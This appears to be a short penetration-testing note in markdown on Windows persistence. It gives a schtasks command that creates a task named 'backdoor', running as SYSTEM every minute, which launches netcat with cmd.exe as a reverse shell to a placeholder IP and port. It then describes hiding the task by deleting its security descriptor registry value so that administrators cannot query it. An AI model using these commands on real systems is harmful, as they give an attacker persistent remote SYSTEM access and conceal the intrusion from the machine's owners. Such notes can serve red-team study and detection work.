 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

### Scheduling tasks
- Create a task that runs every minutes and runs a reverse shell
```powershell
# Create a task
schtasks /create /sc minute /mo 1 /tn backdoor /tr "c:\tools\nc64 -e cmd.exe <IP> <PORT>" /ru SYSTEM

# Check the task
schtasks /query /tn backdoor
```

### Hiding the task
- We can delete the security descriptor (SD) of the task so that no user, not even administrator can query this task.
- SD is an ACL that defines which users have access to the tasks.
- SD of tasks are stored at `HKLM\Software\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree\backdoor` under a key named `SD`.
- Changing the value is only allowed by SYSTEM.